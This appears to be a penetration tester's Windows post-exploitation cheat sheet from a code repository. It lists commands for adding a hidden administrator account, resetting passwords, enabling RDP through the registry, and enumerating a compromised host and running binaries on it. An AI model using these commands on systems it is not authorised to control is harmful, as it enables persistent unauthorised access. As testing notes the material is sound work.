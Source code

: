 # Post Exploitation Cheat Sheet
This module will contain all Windows/DOS post exploitation items that I use on a daily basis.
## Add Admin User
__1. Add the User:__
* `net user /add [username] [password]`

__2. Add the usedr to the Admin Group:__
* `net localgroup administrators [username] /add`

__3. Change a user's password__
* `net user USERNAME NEWPASS`

## Enable RDP (XP+)
This command will enable RDP on a server which the `reg` command is installed. You must have System access to do so, and RDP must be installed.

__1. To enable RDP (must be Windows XP or above as the `reg` command will be used.)__

* `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

## System / Network Info
These commands will return any system or network information and should be done during post exploitation.
* `netstat -ano` OR JUST `netstat -an`
* `systeminfo` (XP+)

## File System Info
These commands will return information about the  file system of the target Windows(R) server.

__1. To display permission/ownership information of a file or directory:__

`icacls "C:\Documents and Settings\Administrator\Desktop\proof.txt`

## Command Execution
These commands will execute commands or binaries on the compromised Windows(R) System.

__1. To run a binary on the FS of the compromised system from os-shell> in nmap:__

`start /max /d"C:\Program files\foo\" ba.exe -somearguments`
